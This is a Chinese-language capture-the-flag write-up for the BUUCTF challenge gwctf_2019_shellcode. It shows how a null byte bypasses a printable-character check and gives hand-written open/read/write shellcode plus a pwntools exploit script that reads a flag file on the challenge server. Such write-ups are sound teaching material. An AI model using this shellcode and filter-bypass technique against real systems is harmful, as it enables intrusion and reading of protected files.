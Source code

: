 ```yaml
---
title: BUUCTF_gwctf_2019_shellcode
tags:
 - orw
 - PWN
 - shellcode
 - 00截断
categories:
 - BUU
---
```

## 总结：

通过这道题的学习与收获有：

1、strlen函数是可以被00给截断的，而shellcode本身执行的时候并不会因为00截断。

2、第一次手写open,read,write函数的汇编

3、push一个字符串的话，比如push 0x67616c66 （这个是flag），不足八字节，push的时候会自动填充00补全八字节，从而占满一个内存单元。
<!--more-->

## 保护策略：

![image-20220411120824847](/upload/img/image-20220411120824847.png)


发现没开NX，那基本就是shellcode没跑了。

然后发现开启了沙箱，禁用了execve函数，那就考虑写一个orw的shellcode

![image-20220411120832638](/upload/img/image-20220411120832638.png)


## 程序分析：

![image-20220411120838759](/upload/img/image-20220411120838759.png)


由于这个main函数里面存在一个这个汇编指令，因此不能生成伪代码，那就只能读汇编了，好在程序也不复杂。

<img src="/upload/img/image-20220411120845838.png" alt="image-20220411120845838" style="zoom: 50%;" />


逻辑就是执行is_printable之后，去将eax与自身相与，如果eax的值为1，test执行之后的运算结果为1（标志寄存器的值为0,否则反之)如果标志寄存器的值为1，则jz指令进行跳转，跳转到loc_AC1函数，如果触发了该函数则程序直接结束，并不会触发call rax的指令，如果jz不进行跳转，则执行call rax（执行完lea之后，rax的值存放的就是read函数输入进去的内容，因此我们输入的时候直接布置shellcode即可）。

## 大致思路：

因此我们要触发call rax，就需要让loc_AC1函数的返回值为0。

![image-20220411120859759](/upload/img/image-20220411120859759.png)


而这个函数返回值为0的前提就是输入的内容ascii码必须要大于31，并且不能等于127。因为我们构造的shellcode经常会存在不可见字符，因此这里我起初考虑的是将写的shellcode转换成可见字符。

然后转换成可见字符发现，这个shellcode太长了。（下面是转换成可见字符之后的shellcode）

![image-20220411120906357](/upload/img/image-20220411120906357.png)


然后到这里就卡住了，参考了另一篇师傅的博客，发现strlen函数是可以被00截断的（我自己试了一下发现确实如此）

也就是说只要让shellcode中出现00，并且在00之前的是可见字符就ok了，因为strlen获取的长度就到00这里。

![image-20220411120912087](/upload/img/image-20220411120912087.png)


这个循环就不会再往后跑了，因此它不会对00后面的内容进行检查。在这里要说一下，**shellcode本身执行的话并不会被00截断，因为shellcode本身毕竟就是一堆机器码而已，CPU执行机器码的时候，才不管你什么00截断不截断呢，机器码是什么它就执行什么。真正会因为00而截断shellcode的其实是一些函数,比如strcpy这个函数。**

因此我们只需要让shellcode中尽早的出现00机器码即可

然后就是开始手动编写shellcode了。

## 手写orw-shellcode

首先我们要执行的如下的代码：

```python
open(flag_addr,0)
read(3,addr,0x50)#第一个参数是3，因为一个进程有默认的文件描述符0,1,2。当再打开新的文件之后，文件描述符就会以此类推的分配，因此上面open新打开的flag文件的文件描述符就是3
#至于这个addr，把读出来的flag放到哪，一会再说
write(1,addr,0x50)
```

接下来，就开始用汇编来实现上面的内容。

```assembly
open(flag_addr,0)
push 0x67616c66
push rsp
pop rdi
#上面这两步就是在传open的第一个参数，这个参数要是一个地址，这个地址要指向字符串'flag'
#执行完push 0x67616c66的时候，栈顶的内容就是字符串flag，而栈顶指针rsp就指向了这个flag，此时执行push rsp将指向flag的地址（也就是rsp）压栈，此时栈顶的内容就是那个指向flag的地址，然后再执行pop rdi
#将栈顶的这个内容弹给rdi，此时open的第一个参数就成为了指向flag的地址
push 0#这个push 0这里就会出现机器码00，用来截断strlen函数
pop rsi
push 2
pop rax
syscall

read(3,addr,0x50)
push 3
pop rdi
push rsp 
pop rsi
#上面这两步在完成read函数的第二个参数传参，此时压入栈的rsp，我并不知道这个地址是什么，只知道把这个地址给rsi的话，flag就会被写到这个地址里面，至于这个地址是什么，真的不重要，重要的是要保证接下来write的第二个参数也是这个地址即可，而我们要做的就是保证接下来的每一个push都要对应一个pop，这样栈顶始终就是给当初rsi的那个地址了。
push 0x50
pop rdx
push 0
pop rax
syscall

write(1,addr,0x50)
push 1
pop rdi
push rsp
pop rsi
#这个地方的push rsp pop rsi原理同上
push 0x50
pop rdx
push 1
pop rax
syscall

```

## EXP：

最后脚本的话有一点要注意一下。

![image-20220411120920984](/upload/img/image-20220411120920984.png)


这个地方有一个指令，它将把我们输入的payload的最后一字节改成0。（如下图）

![image-20220411120927129](/upload/img/image-20220411120927129.png)


这样的后果就是将我们的shellcode最后一个syscall给破坏了，因此我们在syscall后面随便再写个指令，syscall就是完整的了。

最后exp：

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=remote('node4.buuoj.cn',28435)
shellcode=asm('''
push 0x67616c66
push rsp
pop rdi
push 0
pop rsi
push 2
pop rax
syscall

push 3
pop rdi
push rsp
pop rsi
push 0x50
pop rdx
push 0
pop rax
syscall

push 1
pop rdi
push rsp
pop rsi
push 0x50
pop rdx
push 1
pop rax
syscall

nop
''')
print(hex(len(shellcode)))
p.send(shellcode)
p.interactive()

```


![image-20220411120933954](/upload/img/image-20220411120933954.png)

